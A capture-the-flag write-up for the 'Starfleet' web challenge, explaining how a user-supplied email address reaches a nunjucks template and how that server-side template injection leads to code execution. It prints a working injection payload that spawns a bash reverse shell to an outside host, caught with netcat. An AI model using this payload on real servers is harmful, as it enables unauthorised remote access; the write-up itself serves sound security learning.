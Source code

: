 # Starfleet

Challenge text:
```
Do you enjoy unaliving humans as much as the next guy?
Welcome to Starfleet academy, the place where your mass genocide dreams come true. Enroll today!
```
Along with the [source code](web_starfleet).

This challenge was made to be quite hard, but had an unintended solution which made it a lot easier.

The website contains an input field, and if you fill in your email, you'll recieve an email telling you that your submission is being processed. There's nothing too interesting about this, so I check the source code.

```js
let message = {
    to: emailAddress,
    subject: 'Enrollment is now under review ✅',
};

let gifSrc = 'minimakelaris@hackthebox.eu';

message.html = nunjucks.renderString(`
    <p><b>Hello</b> <i>${ emailAddress }</i></p>
    <p>A cat has been deployed to process your submission 🐈</p><br/>
    <img width="500" height="350" src="cid:{{ gifSrc }}"/></p>
    `, { gifSrc }
);

message.attachments = [
    {
        filename: 'minimakelaris.gif',
        path: __dirname + '/../assets/minimakelaris.gif',
        cid: gifSrc
    }
];

let transporter = nodemailer.createTransport({
    host: 'smtp.gmail.com',
    port: 465,
    secure: true,
    auth: {
        user: 'cbctf.2021.web.newjucks@gmail.com',
        pass: '[REDACTED]',
    },
    logger: true
});

transporter.sendMail(message);
```
The only field we can control is the email address. After a bit of staring, I decide to do a little research about the nunjucks, the templating thing, as a lot of websites seem to be vulnerable to different templating attacks if the template is exposed to user-defined content. 

I come across a [GitHub issue](https://github.com/mozilla/nunjucks-docs/issues/17) which seems to contain exactly what I'm looking for. In nunjucks templates you can execute arbitrary code with creating a function and executing it with `{{ ({}).constructor.__proto__.constructor("code goes here")() }}`. With this you can execute shell commands, and get a reverse shell.

```js
{{ ({}).constructor.__proto__.constructor("process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/example.com/80 0>&1'`)")() }}
```

If we set our email to this and send it to the server while listening in netcat, we'll get access to the server, allowing us to read the flag.